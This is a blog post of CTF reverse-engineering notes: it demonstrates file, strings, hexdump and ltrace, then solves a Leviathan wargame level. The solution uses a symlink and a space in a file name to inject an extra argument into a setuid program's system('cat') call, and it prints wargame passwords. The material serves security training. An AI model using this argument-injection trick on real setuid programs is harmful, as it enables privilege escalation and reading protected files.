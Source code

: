 ```yaml
---
layout: post
title: "Learning from CTF : Reverse Engineering"
date: 2015-01-02 03:15:59 +0000
comments: true
categories: 
---
```


This post lists the learnings from the CTF while doing Reverse Engineering.
<!-- more -->


If we are provided with a binary to reverse engineer, for example asking for password.

<ol>

<li>
file: The first step is to run file command on the binary which would tell us whether it is 32/64 bit or statically/dynamically linked etc.
```
bitvijays@kali:~/Desktop/CTF/31C3$ file cfy 
cfy: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x9bc623f046535fba50a2124909fb871e5daf198e, not stripped
```
</li>
<li>
The second step could be running strings or "hexdump -C" on it, specially in the case of very simple re challenges like asking for password and stored in an array.
```
bitvijays@kali:~$ strings check 
/lib/ld-linux.so.2
D$,1
D$%secrf
D$)et
D$ love
T$,e3
[^_]
password: 
/bin/sh
Wrong password, Good Bye ...
;*2$"
```
```
hexdump -C check | more 
00000540  31 c0 c7 44 24 18 73 65  78 00 c7 44 24 25 73 65  |1..D$.sec..D$%se|
00000550  63 72 66 c7 44 24 29 65  74 c6 44 24 2b 00 c7 44  |crf.D$)et.D$+..D|
00000560  24 1c 67 6f 64 00 c7 44  24 20 6c 6f 76 65 c6 44  |$.god..D$ love.D|
```
</li>

<li>
The next step could be running strace or ltrace on the binary.

strace: trace system calls and signals
ltrace: A library call tracer
</li>


</ol>

###Examples
<ol>
<li>Consider a binary which is setuid and used to read files.
```
leviathan2@melinda:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename

leviathan2@melinda:~$ ls -la
-r-sr-x---   1 leviathan3 leviathan2 7498 Nov 14 10:32 printfile
```
We need to read 
```
leviathan2@melinda:~$ ls -l /etc/leviathan_pass/leviathan3 
-r-------- 1 leviathan3 leviathan3 11 Nov 14 10:32 /etc/leviathan_pass/leviathan3
```
Let's see the ltrace of the binary while accessing a file which we are allowed to read
```
leviathan2@melinda:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2 
__libc_start_main(0x804852d, 2, 0xffffd774, 0x8048600 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                                                                            = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2")                  = 39
system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                 = 0
+++ exited (status 0) +++
```
Let see what happen when we try to access file which we don't have permission to.
```
leviathan2@melinda:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852d, 2, 0xffffd774, 0x8048600 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                                                                            = -1
puts("You cant have that file..."You cant have that file...
)                                                                                     = 27
+++ exited (status 1) +++
```
So it's a matter of tricking access(), if the call to access() succeeds then it calls system("cat file"), so if pass the argument printfile /etc/issue, then it works.
We can get around it by using a space in our file name. Eg: touch foo\ bar. then we create a symlink to the password file and call it foo. ln -s /etc/leviathanpass/leviathan3 foo

```
leviathan2@melinda:~$ mkdir /tmp/levi
leviathan2@melinda:~$ cd /tmp/levi
leviathan2@melinda:/tmp/levi$ ls
leviathan2@melinda:/tmp/levi$ ln -s /etc/leviathan_pass/leviathan3 ./foo
leviathan2@melinda:/tmp/levi$ touch foo\ bar
leviathan2@melinda:/tmp/levi$ ~/printfile foo\ bar 
Ahdiemoo1j
/bin/cat: bar: No such file or directory
```
</li>
</ol>
